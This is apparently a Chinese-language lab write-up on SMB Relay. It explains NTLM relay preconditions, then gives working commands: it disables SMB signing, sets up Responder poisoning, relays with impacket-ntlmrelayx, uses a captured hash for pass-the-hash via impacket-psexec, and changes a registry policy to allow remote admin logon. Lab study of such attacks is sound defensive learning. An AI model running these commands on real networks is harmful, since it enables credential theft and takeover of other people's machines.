






# SMB Relay


## 0x01原理

### 1.1 什么是 SMB Relay

正常 SMB 认证：客户端向服务器证明"我知道密码"，通过 NTLM-Auth 挑战-应答机制完成。

SMB Relay 做的事：攻击机站在中间，把客户端的认证请求**原封不动转发**给真正的 目标服务器。目标服务器收到的是完整的、合法的 NTLM 认证，无法区分是"本人"还是 "被中继的攻击机"。



**核心**：攻击机不需要知道密码，不需要破解哈希，只需要**把认证包转发到 目标服务器**即可冒充受害者执行操作。

### 1.2 必要条件

| 条件                  | 为什么                             |
| ------------------- | ------------------------------- |
| ① 获得一份 NTLM 认证流量    | 必须先让某个受害者向攻击机发起 NTLM 认证         |
| ② 目标服务器 SMB 签名 = 禁用 | 签名开启 → 认证包被加密绑定到原目标 → 无法转发      |
| ③ 受害者对中继目标有管理员权限    | 中继过去只能执行当前用户权限能做的事              |
| ④ 不能中继回请求来源机器       | NTLM 认证包含源机器信息，回传会被拒绝（自 2008 起） |
## 0x 02 靶场部署
### 2.1 关闭SMB签名
分别在Win10和DC01上执行：
```powershell
Get-SmbServerConfiguration | Select EnableSecuritySignature, RequireSecuritySignature
```
来查看是否开启SMB签名。

域控默认直接开启SMB签名的，需要执行：
```powershell
Set-SmbServerConfiguration -EnableSecuritySignature $false -Force
Set-SmbServerConfiguration -RequireSecuritySignature $false -Force
```
关闭SMS签名。
为什么要确认是否关闭SMB签名？
SMB 签名意味着 NTLM 认证完成后，服务器和客户端用 SessionKey 对后续每个 SMB 数据包生成 HMAC 签名。攻击机虽然 Relay了认证，但没有 NTLM Hash，算不出 SessionKey，自然也签不了名。
### 2.3 在SRV 2016上登录账户CORP\Adminstrator
为什么不能直接使用原先的SRV2016\Administrator (本地账号)呢，因为SMB Relay攻击默认只是转发认证过程和凭证，无法凭空创造权限。如果使用默认的SRV2016\Administrator账户的话无法登录DC01机器，攻击自然也就无法成功了。

## 0x 02 漏洞复现
### 2.1获取NTLM 认证流量

SMB Relay 本身不负责"引来流量"，只负责"转发流量"。获取 NTLM 认证有多种 独立手段，
我们可以直接使用前面刚学习的[LLMNR Poisoning](https://dragonkeep.github.io/Notes/Note/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/LLMNR%20Poisoning.html)来将流量引到kali攻击机。
修改Responder配置文件，让其不占用SMB 445端口，只用来监听。
```bash
sudo sed -i 's/^SMB.*=.*/SMB = Off/' /etc/responder/Responder.conf
sudo sed -i 's/^HTTP.*=.*/HTTP = Off/' /etc/responder/Responder.conf
grep -E "^(SMB|HTTP)" /etc/responder/Responder.conf
```
监听网卡：
```bash
responder -I eth0 -v
```

在SRV2016机器上使用文件管理器访问`\\evil\share`,触发SMB请求。
### 2.2 启用中继节点
在kali中另外开启一个终端，使用`impacket-ntlmrelayx`工具来充当中继节点。

```bash
impacket-ntlmrelayx -t 192.168.127.100 -smb2support
```

这里192.168.127.100是对Win10机器充当客户端，使用SRV2016作为触发SMB请求，就不能再把SRV2016机器当作客户端，否则请求就返回原来机器，不满足上诉条件中的第四点。

### 2.3 SRV2016触发
以 **CORP\Administrator** 登录 SRV2016，文件管理器地址栏输入：
```
\\evil\share
```
### 2.4 获取Win10 机器上的密码凭证
观察`impacket-ntlmrelayx`，发现成功获取到Win10机器上的账户信息。

因为默认Administrator用户是禁止登录的，所以这里使用`dragonkeep`用户进行登录。
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:c72675e42baaf725ac5386531bb7b987 dragonkeep@192.168.127.100
```

注：这里使用psexec进行哈希传递，需要dragonkeep是在管理员组或者管理员，拥有管理员组的网络登录权限才行。
如果无法成功登录，尝试提高网络登录权限：
```powershell
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name
  "LocalAccountTokenFilterPolicy" -Value 1 -PropertyType DWord -Force
```
